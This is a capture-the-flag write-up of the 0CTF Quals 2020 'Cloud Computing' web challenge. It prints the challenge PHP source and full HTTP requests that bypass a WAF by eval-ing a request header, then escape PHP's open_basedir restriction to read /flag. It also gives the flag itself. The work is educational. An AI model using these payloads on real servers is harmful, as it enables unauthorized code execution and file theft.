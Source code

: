 ```yaml
---
layout: post
title: 0CTF Quals 2020 - Misc
published: true
categories: [Misc, Web]
---
```


I participated with CTF.SG again, but my computer actually died during the first 40 hours so I didn't have time to help out at all, except posting encouraging stuff in our chat.

Although I titled this "Misc", I only tried this one challenge as it looked like the it was the second easiest one after "easyphp". As the challenge site is still up, I plan to try more before it gets taken down - so watch this space for other writeups!

---

## Misc

---

# Cloud Computing

#### Category: Misc | 42 solves | 211 points

<details>
  <summary>Challenge Description</summary>
  
  Welcome to our new cloud function computing platform, enjoy <a href="http://pwnable.org:47780/">here</a>.
</details>

This challenge provides all the source code on the main page, so no bruteforcing is required.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

There are 3 endpoints: 

- `pwd` that returns the current directory
- `upload` where you can test the WAF by writing data to `index.php`
- `shell` where you might be able to execute RCE if you have the correct payload. 

Actually, I never found the use for `shell` as everything that could be done there was also doable in `upload` for this challenge.

The path in `pwd` is generated on Line 7 - it's the SHA1 hash of your IP and your User Agent, presumably to prevent people from piggybacking and getting the flag by luck. 

So the first thing I did was to fuzz the WAF with `[A-Za-z0-9]` and all the default special characters - so it's less than 100 requests and *probably* within limits of what is allowed, and I found out that it seems to block all uppercase letters, `'`,  backticks, spaces, `|`, `+`, `-` and `.`. Yes, dots too. So with this, we thought that the WAF was too restrictive and the goal should be to bypass the WAF completely, instead of acting within its restrictions.

As we controlled the headers, as shown by how our User-Agent gets processed - we can try to eval the header and thus remove the WAF restriction. Thus we found `eval(end(getallheaders()));`, which we can append as a value to the `data` parameter in `upload` by adding the PHP tag with a newline character, like this: `%3C?php%0a`, which translates to `<?php\n` when URL decoded. 

So we first tried to dump all defined variables by doing this:

```
GET /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: var_dump(get_defined_vars());
    
    
```

which returned the various variables like `$_SERVER`. So we know that we're on the right track.

Moving on, we get `get_current_user()` and find that we are actually `root`, so we should have write privileges, but running `var_dump(is_writable('.'));` returned `bool(false)`. Since we cannot write anything, and with the `open_basedir` restriction in effect, it would be near impossible to traverse out of our current directory. 

And so we got stuck and went to sleep.

So anyway after the CTF ended we read a Chinese writeup and discovered that it was a false negative. The directory was actually writeable. And since we were root it would not make sense for the directory to be not-writeable.

With this in mind, solving was easy - we just have to make a directory and use the `open_basedir` bypass as it was detailed on [Shpik's blog (Korean)](http://blog.shpik.kr/2019/PHP_Open_basedir_Bypass/). By setting `open_basedir` to the directory above the one we control, we can escape (traverse) to the root directory using `chdir('..')` and go to any path from there.

So with this payload:

```
POST /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: error_reporting(E_ALL);mkdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');chdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');readfile('/flag');
     
     
```

We were able to get the flag!

![Cloud Computing Flag?](../assets/0ctf-quals-2020/Cloud-Computing-Flag.png)

... or not, since the flag appears to be an `.img` file. So we can't read it directly.

I guess this is the part it stops being `Web` and becomes `Forensics` or `Misc`. You can read my other Forensics blog posts for details on that, but basically all we have to do is to recover the `img` in the usual way - either by Autopsy or Foremost - and we did just that. 

In it, there was an image with the flag.

<details>
  <summary>FLAG</summary>
  
  flag{do_u_like_cloud_computing}
</details>

***
